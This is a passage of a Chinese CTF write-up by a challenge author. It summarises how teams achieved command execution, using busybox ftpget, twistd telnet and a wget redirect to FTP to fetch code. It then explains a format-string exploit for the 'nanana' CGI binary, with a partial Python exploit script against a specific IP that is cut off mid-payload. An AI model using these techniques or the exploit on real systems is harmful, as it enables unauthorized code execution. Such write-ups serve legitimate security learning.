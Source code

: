 就可以任意代碼執行

從 log 中有看到其他隊伍的解法是

```
busybox ftpget ...  

```

或是

```
twistd telnet ...  

```

或是

```
wget HEX_IP
// 給個 302 Redirect 到 FTP protocol 上，也是這題解法中最訝異的XD
// 本來還檢查過 wget source code 想說產生的 index.html 應該不可控，結果居然到 FTP Protocol 上竟然就可以控  

```

總體來講也看到各種玩 Command Line 的極限XD 學到滿多用法的  
最為出題者來講我覺得是最成功的一題，簡單好玩又有趣!

0x02 200 nanana (18 隊解)
=======================

* * *

> [https://gist.github.com/orangetw/4942d949134227eedd4c](https://gist.github.com/orangetw/4942d949134227eedd4c)

```
xxd -r -p nanana.xxd > nanana

```

名為 Web 實際上卻是 Pwn 的題目  
只提供 binary 並無提供`libcgid.so`所以必須在沒有 library 的狀況下解決這題! 簡單的`Format String`但沒有`output (sprintf)`，把 do_job 的 GOT 換成 system 的 PLT 地址就可以

不過唯一要注意的是得先利用`stack guard`覆蓋`stack smashing detected`的 ARGV[1](http://drops.javaweb.org/uploads/images/0310a670a917e66d4f6edd5d831f82ff281fa7a9.jpg)的方式達成任意地址洩漏把 password 給洩漏出來才比較好利用  
但是因為 64-bits 且送的東西無法有 NULL Byte 所以在蓋 ARGV[1](http://drops.javaweb.org/uploads/images/0310a670a917e66d4f6edd5d831f82ff281fa7a9.jpg)的時候必須用比較迂迴的方式蓋  
先使用 username 把 ARGV[1](http://drops.javaweb.org/uploads/images/0310a670a917e66d4f6edd5d831f82ff281fa7a9.jpg)最後一個蓋 NULL  
再使用 username 把 ARGV[1](http://drops.javaweb.org/uploads/images/0310a670a917e66d4f6edd5d831f82ff281fa7a9.jpg)倒數第二個蓋 NULL  
之後 job 蓋記憶體位置(0x601090)三個 bytes 後剩下的五個 bytes 才會剛好是 NULL 以達到任意地址讀取

詳細 Exploit 可以參考

```
import requests
from urllib import urlencode
from struct import pack, unpack

URL = 'http://54.92.88.102/cgi-bin/nanana'

def leak(address):
    address = pack('I', address)
    address = address.strip('\x00')

    payload = {
        'username': 'A'*349, 
        'password': 'B'*380, 
        'job': 'C'*392 + address
```